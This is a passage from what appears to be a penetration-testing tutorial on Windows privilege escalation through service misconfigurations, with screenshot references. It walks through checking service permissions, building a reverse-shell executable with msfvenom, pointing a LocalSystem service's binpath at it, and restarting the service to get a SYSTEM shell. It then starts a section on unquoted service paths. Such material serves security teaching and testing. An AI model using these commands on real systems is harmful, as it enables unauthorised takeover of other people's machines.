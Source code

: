 Check if any services are running with higher privilege:

sc qc \<service name\>

![Privilege status
check](vertopal_528d199b82d241d6abcc4565ee1c8434/media/image15.png){width="6.5in"
height="2.5in"}\
demosvc1 service is also running as LocalSystem privilege.

Check if test user has access to modify service configuration.

accesschk.exe /accepteula -uwcqv \<current username\> \<service name\>

![test user
access](vertopal_528d199b82d241d6abcc4565ee1c8434/media/image1.png){width="6.5in"
height="1.6388888888888888in"}

It says that test user has full access to this service.

Generate executable shell and transfer this into the target system

msfvenom -p windows/shell_reverse_tcp LHOST=\<Your system IP\>
LPORT=\<Your system port\> -f exe \> reverse.exe

![Transfer of executable
shell](vertopal_528d199b82d241d6abcc4565ee1c8434/media/image27.png){width="6.5in"
height="2.388888888888889in"}

Use
[[sc]{.underline}](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/sc-create)
command to change the binpath of vulnerable service.

sc config demosvc1 binpath=\"c:userstestreverse.exe\"

Restart the service.

net stop demosvc1

net start demosvc1

![service
restart](vertopal_528d199b82d241d6abcc4565ee1c8434/media/image11.png){width="5.777777777777778in"
height="3.75in"}

Start the listener on mentioned port. Bingo, Got NT AuthoritySystem
access.

![NT AuthoritySystem
access](vertopal_528d199b82d241d6abcc4565ee1c8434/media/image3.png){width="6.5in"
height="2.763888888888889in"}

## **Unquoted Service Path**

Any service executable whose path contains space and is not enclosed in
the quote is vulnerable to this attack. E.g. C:Program FilesUnquoted
Pathuqsp.exe
